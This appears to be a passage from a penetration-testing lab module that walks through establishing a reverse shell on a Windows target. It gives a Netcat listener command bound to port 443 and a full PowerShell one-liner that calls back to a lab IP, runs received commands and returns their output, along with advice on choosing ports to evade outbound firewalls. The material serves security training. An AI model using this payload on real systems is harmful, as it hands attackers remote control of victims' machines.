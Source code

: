 Let's work hands-on with this to understand these concepts better.

* * *

## Hands-on With A Simple Reverse Shell in Windows

With this walkthrough, we will be establishing a simple reverse shell using some PowerShell code on a Windows target. Let's start the target and begin.

We can start a Netcat listener on our attack box as the target spawns.

#### Server ( `attack box`)

```shell
sudo nc -lvnp 443
Listening on 0.0.0.0 443

```

This time around with our listener, we are binding it to a [common port](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) ( `443`), this port usually is for `HTTPS` connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday. That said, a firewall capable of deep packet inspection and Layer 7 visibility may be able to detect & stop a reverse shell going outbound on a common port because it's examining the contents of the network packets, not just the IP address and port. Detailed firewall evasion is outside of the scope of this module, so we will only briefly touch on detection & evasion techniques throughout the module, as well as in the dedicated section at the end.

Once the Windows target has spawned, let's connect using RDP.

Netcat can be used to initiate the reverse shell on the Windows side, but we must be mindful of what applications are present on the system already. Netcat is not native to Windows systems, so it may be unreliable to count on using it as our tool on the Windows side. We will see in a later section that to use Netcat in Windows, we must transfer a Netcat binary over to a target, which can be tricky when we don't have file upload capabilities from the start. That said, it's ideal to use whatever tools are native (living off the land) to the target we are trying to gain access to.

`What applications and shell languages are hosted on the target?`

This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

On the Windows target, open a command prompt and copy & paste this command:

#### Client (target)

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
